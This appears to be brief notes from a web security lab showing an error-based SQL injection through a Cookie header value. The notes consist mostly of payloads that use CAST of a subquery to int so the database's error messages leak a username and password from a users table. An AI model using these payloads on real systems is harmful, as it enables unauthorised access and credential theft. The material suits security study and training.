 Cookie: Ncavaq8Y4nMaN3XN'

![](./img/other/1.png)

Get the error ->  SQLi

Cookie: Ncavaq8Y4nMaN3XN' and CAST((SELECT 1) AS int) -- -

![](./img/other/2.png)

Cookie: Ncavaq8Y4nMaN3XN' and 1=CAST((SELECT 1) AS int) -- -

No error

Cookie: Ncavaq8Y4nMaN3XN' and 1=CAST((SELECT username from users limit 1) AS int) -- -

![](./img/other/3.png)

May be character limit

Cookie: ' and 1=CAST((SELECT password from users limit 1) AS int) -- -

![](./img/other/4.png)

Leak value

![](./img/other/5.png)  
